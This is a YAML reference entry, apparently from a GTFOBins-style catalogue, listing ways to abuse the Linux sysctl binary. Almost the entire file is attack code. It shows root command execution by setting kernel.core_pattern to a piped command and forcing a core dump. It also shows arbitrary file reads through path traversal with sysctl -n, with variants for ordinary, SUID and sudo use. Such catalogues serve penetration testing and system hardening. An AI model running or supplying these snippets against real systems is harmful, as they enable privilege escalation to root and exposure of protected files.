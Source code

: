 ```yaml
---
functions:
  command:
    - description: The command is executed by root in the background when a core dump occurs.
    - code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id

  file-read:
    - description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
    - code: |
        LFILE=file_to_read
        /usr/sbin/sysctl -n "/../../$LFILE"
  suid:
    - code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
    - code: |
        LFILE=file_to_read
        ./sysctl -n "/../../$LFILE"
  sudo:
    - code: |
        COMMAND='/bin/bash -c id>/tmp/id'
        sudo sysctl "kernel.core_pattern=|$COMMAND"
        sleep 9999 &
        kill -QUIT $!
        cat /tmp/id
    - code: |
        LFILE=file_to_read
        sudo sysctl -n "/../../$LFILE"
---
```

